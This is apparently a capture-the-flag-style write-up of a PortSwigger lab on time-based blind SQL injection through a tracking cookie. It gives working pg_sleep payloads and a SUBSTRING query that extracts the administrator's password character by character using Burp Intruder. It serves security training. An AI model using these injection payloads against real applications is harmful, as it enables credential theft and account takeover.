 
# Blind SQL injection with time delays and information retrieval

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the administrator user.

Hint: You can find some useful payloads on our SQL injection cheat sheet.

---------------------------------------------

References: 

- https://portswigger.net/web-security/sql-injection/blind

- https://portswigger.net/web-security/sql-injection/cheat-sheet

---------------------------------------------

It is possible to exploit the SQLI and make the server wait 10 seconds with:

```
COOKIE'||pg_sleep(10)--
```

```
jIPoq0qYcS0Y2AmF'||pg_sleep(10)--
```

We will start with a comparison of 1=1 and 1=2 to see it sleeps only in the first case:

``` 
SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END
SELECT CASE WHEN (1=2) THEN pg_sleep(10) ELSE pg_sleep(0) END
```

```
jIPoq0qYcS0Y2AmF'+||+(SELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END)--
jIPoq0qYcS0Y2AmF'+||+(SELECT+CASE+WHEN+(1=2)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END)--
```

Then we will add a check to find the first character of the password:

```
SELECT CASE WHEN (SUBSTRING((SELECT password FROM users WHERE username='administrator'),1,1)='a') THEN pg_sleep(10) ELSE pg_sleep(0) END
```

```
jIPoq0qYcS0Y2AmF'+||+(SELECT+CASE+WHEN+(SUBSTRING((SELECT+password+FROM+users+WHERE+username='administrator'),1,1)='a')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END)--
```

It seems it is working. We send it to Intruder:



![img](images/Blind%20SQL%20injection%20with%20time%20delays%20and%20information%20retrieval/1.png)

And one of the characters take longer to receive the response, in this case “v”:



![img](images/Blind%20SQL%20injection%20with%20time%20delays%20and%20information%20retrieval/2.png)

Continue character by character nutil getting the password “v06vaymszli7v131izpv”:



![img](images/Blind%20SQL%20injection%20with%20time%20delays%20and%20information%20retrieval/3.png)